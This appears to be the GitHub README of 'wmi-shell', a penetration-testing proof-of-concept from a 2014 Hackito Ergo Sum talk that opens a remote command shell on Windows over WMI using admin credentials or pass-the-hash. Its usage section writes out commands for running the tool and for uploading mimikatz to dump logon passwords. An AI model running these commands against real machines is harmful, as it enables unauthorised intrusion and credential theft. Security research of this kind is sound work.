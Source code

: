 # wmi-shell

Proof-of-concept of an interactive shell on a target Windows machine using only the WMI system (no network shares are needed to extract command output).

Remote WMI access must be configured on the target. No SMB services are needed. All command output is obtained exclusively using the WMI access, through storage in the WMI repository.


## Usage

Launch the script on Kali Linux with either the cleartext password or the password hash of an administrator account on the target Windows machine:   
```
python -O wmi-shell.py <USERNAME> <PASSWORD> <TARGET_IP>
python -O wmi-shell.py <USERNAME> <LM:NTLM> <TARGET_IP>	
```
Usual Windows commands can be launched from the interactive shell the script provides:

```
>>> dir c:
```
A post-exploitation tool like mimikatz can also be uploaded and ran to extract passwords from the target:

```
>>> upload ../mimikatz.exe
>>> %TEMP%\mimikatz.exe privilege::debug sekurlsa::logonPasswords exit
```

## Requirements

Kali Linux 32-bit and 64-bit with Pass the Hash toolkit (installed by default). 

To make the script run from other systems, you must download and install the PTH toolkit and some old libraries needed by the wmis and wmic tools.

Example for a 64-bit Debian:
```bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
sudo apt install multiarch-support
wget http://ftp.de.debian.org/debian/pool/main/libt/libtasn1-3/libtasn1-3_2.13-2+deb7u2_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/g/gnutls26/libgnutls26_2.12.20-8+deb7u5_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/libg/libgcrypt11/libgcrypt11_1.5.0-5+deb7u4_amd64.deb
dpkg -i libgcrypt11_1.5.0-5+deb7u4_amd64.deb
dpkg -i libtasn1-3_2.13-2+deb7u2_amd64.deb
dpkg -i libgnutls26_2.12.20-8+deb7u5_amd64.deb
```

## Project details

This project was initially presented at the 2014 Hackito Ergo Sum conference by Andrei Dumitrescu. The presentation slides can be found online:
- <a href="http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf" target="_blank">http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf</a>
- <a href="https://speakerdeck.com/hackitoergosum/hes2014-wmi-shell-a-new-way-to-get-shells-on-remote-windows-machines-using-only-the-wmi-service-by-andrei-dumitrescu" target="_blank">https://speakerdeck.com/hackitoergosum/hes2014-wmi-shell-a-new-way-to-get-shells-on-remote-windows-machines-using-only-the-wmi-service-by-andrei-dumitrescu</a>

### Description:

The Windows Management Instrumentation (WMI) technology is included by default in all versions of Windows since Windows Millenium. The WMI technology is used by Windows administrators to get a variety of information concerning the target machine (like user account information, the list of running processes etc.) and to create/kill processes on the machine.

From a pentester’s point of view, WMI is just another method of executing commands remotely on target machines in a post-exploitation scenario. This can be achieved by creating processes on the remote machine using a WMI client. However, at the present time the output of the executed command cannot be easily recovered ; a potential solution would be write the output to a file and get these files using the SMB server on port 445, but this requires having remote file access on the target machine, which might not always be the case.

We have developed a tool that allows us to execute commands and get their output using only the WMI infrastructure, without any help from other services, like the SMB server. With the wmi-shell tool we can execute commands, upload files and recover Windows passwords remotely using just the WMI service that listens on port 135. During this talk we will quickly review current authenticated remote code execution methods available for Windows, we will explain the aspects of the WMI architecture that make the wmi-shell possible and we will present the tool itself (demo & links to the source code).


